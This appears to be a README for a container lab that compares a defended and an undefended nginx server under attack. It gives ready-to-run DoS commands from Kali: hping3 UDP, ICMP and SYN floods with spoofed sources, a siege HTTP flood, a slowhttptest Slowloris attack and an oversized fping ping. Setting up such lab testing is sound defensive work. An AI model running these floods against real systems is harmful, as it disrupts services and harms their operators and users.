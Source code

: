 # Tasks
* create attacker Kali linux container (using UDP Flood, ICMP flood, HTTP flood, Slowloris, SYN flood,  Ping of Death attacks)
* create defender container
* measure attacker vs non-defended container and attacker vs properly defended container

# Additional resource
* https://pentest.blog/how-to-perform-ddos-test-as-a-pentester/

# Kali Linux

Used `kalilinux/kali-rolling` see [link](https://www.kali.org/docs/containers/using-kali-docker-images/)

## Udp flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 --flood --rand-source --udp -p 8080 nginx
```

## ICMP flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 --flood --rand-source -1 -p 8080 nginx
```

## HTTP flood
used [siege](https://www.kali.org/tools/siege/)
```
    $ siege -b -c250 -t60s http://nginx:8080
```

## Slowloris attack
used Kali package [slowhttptest](https://www.kali.org/tools/slowhttptest/)
```
    $ slowhttptest -c 1000 -H -g -o slowhttp -i 10 -r 200 -t GET -u http://nginx:8080 -x 24 -p 3
```

## Syn flood
used [hping3](https://www.kali.org/tools/hping3/)
```
    $ hping3 -S --flood -V -p 8080 nginx
```


## Ping of death
used [fping](https://www.kali.org/tools/fping/)
```
    $ fping -b 65510 nginx
```
